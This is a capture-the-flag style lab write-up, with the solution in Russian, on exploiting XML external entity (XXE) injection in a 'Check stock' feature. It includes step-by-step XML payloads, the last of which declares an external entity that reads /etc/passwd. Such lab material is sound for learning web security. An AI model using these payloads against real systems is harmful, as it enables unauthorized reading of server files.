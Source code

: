 # Exploiting XXE using external entities to retrieve files
APPRENTICE

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

## Решение
В описании сказано, что всё неожиданное выводится в ответ. Отловлю запрос и вместо единицы в productId отправлю строку "abc":
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>abc</productId>
<storeId>1</storeId>
</stockCheck>
```
Получаю ответ `"Invalid product ID: abc"`.

Объявлю сущность dummy со значением "hello" и попробую передать в качестве значения productId:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [ <!ENTITY dummy "hello"> ]>
<stockCheck>
<productId>&dummy;</productId>
<storeId>1</storeId>
</stockCheck>
```
Получаю ответ `"Invalid product ID: hello"`. Отлично, сущности работают. Переделаю сущнсоть `dummy` на `<!ENTITY dummy SYSTEM "/etc/passwd">`:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [ <!ENTITY dummy SYSTEM "/etc/passwd"> ]>
<stockCheck>
<productId>&dummy;</productId>
<storeId>1</storeId>
</stockCheck>
```
В ответе приходит содержимое файла "/etc/passwd". Задание выполнено.

